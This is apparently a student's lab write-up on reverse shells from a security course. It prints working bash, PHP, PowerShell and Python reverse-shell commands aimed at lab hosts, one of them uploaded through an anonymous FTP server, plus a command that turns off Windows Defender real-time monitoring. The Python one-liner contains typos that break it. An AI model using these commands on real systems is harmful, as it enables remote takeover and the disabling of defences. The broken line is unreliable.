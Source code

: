 ### Overview
---------
This lab we were continuing to work with web shells, however we are now switching to reverse shells. We were first tasked with connecting to a machine called sec335-rocky and creating a reverse shell to connect to a netcat listener that was running. From there we were tasked with uploading a reverse shell to the pippen system that was exploited last week. Following this we were tasked with running a reverse shell on windows but had to first turn of windows defender to do this. Finally, we were tasked with creating a reverse shell using python3. I will go furth into detail on the techniques that I used to complete this lab below. 

### Reflection
------
This was my first time taking a dive into the world of reverse shells and it was a lot of fun and left me wanting more. I definetaly want to explore these more and I feel like it would be an incredibly useful tool to have under my belt later on. I was a little bit confused on how to create a reverse shell using a php as I have not explored how to use php much however, a few resouces online helped me understand that I was essentially using a bash script within a php script. Understanding this concept made everything much easier. 

### Bash Reverse Shell 
------
The first reverse shell that we used was a somewhat simple one just getting us warmed up for the rest of the lab. To start we ran a netcat listener on one terminal using the command `nc -nlvp 4449` meaing that we were listening on port 4449. On another terminal we first logged into our rocky system using ssh and then we ran the command `/bin/bash -i >& /dev/tcp/10.0.17.129/4449 0>&1`. The IP address in that command is the DHCP address of our host machine and the 4449 is the port that we specified when opening the netcat listener. From there we were connected and able to control the rocky machine from our host machine. 

### Uploading a Reverse Shell
------
For this part of the lab, we were tasked with uploading a reverse shell to the pippen server that we exploited last week. To do this, I first had to create the php script that would be uploaded. To do this I used the command in the section above and just built a very simple php script around that, this is what that looked like:

      <?php
      $output1 = exec("/bin/bash -i >& /dev/tcp/10.0.17.129/4449 0>&1");
      
As mentioned in the reflection I know very little php and would love to explore this further. Now with that created I had to login to the Pippen system using the FTP server that I am able to exploit with the anonymous user logon. Once logged in, I navigated to the upload directory and uploaded this script. From there I started another netcat listener using the same port as above. Once the netcat listener was running I navigated to the URL of the file that I uploaded on the pippen FTP server and was connected to the machine. 

### Powershell Reverse Shell
-------
For this task we had to run a reverse shell on our windows box that connected back to our linux box. To do this I needed to again start a netcat listener linsteing on port 4449. Then on the windows machine run run the command `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.17.129',4449); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.length)) -ne 0){;$data= (New-Object -TypeName System.Text.ASCIIENcoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` on the command prompt instead of powershell. However this will not work because Windows Defender blocks this. Reference the section below to turn it off and after disabling it the reverse shell will work. 

###### Turning off Windows Defender over Powershell
To disable Windows Defender simply run the command `Set-MpPreference -DisableRealTimeMonitoring $true` over Powershell. 

### Python3 Reverse Shell
-------
For this final task we were asked to create a reverse shell using python3 to be able to connect back to our linux machine from the rocky machine again. To do this I first had to again create a netcat listener on my linux machine and I was again listening on port 4449. From the we again had to ssh into the rocky machine and run the reverse shell. Below is the command that I used to run the reverse shell:

      python3 -c 'import socket; from subprocess import run; from os import dup2;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.17.150"4449));    dub2(s.fileno(),0); dub2(s.fileno(),1); dub2(s.fileno(),2);run(["/bin/bash","-i"]);'
      
After running this I was again connected to the rocky machine through the netcat listener. 
      
